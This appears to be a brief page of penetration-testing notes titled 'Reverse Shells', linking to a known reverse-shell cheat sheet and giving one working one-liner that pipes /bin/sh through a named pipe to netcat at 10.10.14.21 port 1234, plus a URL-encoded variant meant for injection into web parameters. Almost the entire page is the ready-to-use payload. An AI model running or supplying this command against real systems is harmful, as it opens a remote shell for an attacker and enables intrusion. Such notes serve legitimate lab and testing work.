 # Reverse Shells

Classic list of shells:

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

One of the most reliable:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 1234 >/tmp/f
```

URL Encoded version:

```
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.21+1234+>/tmp/f
```
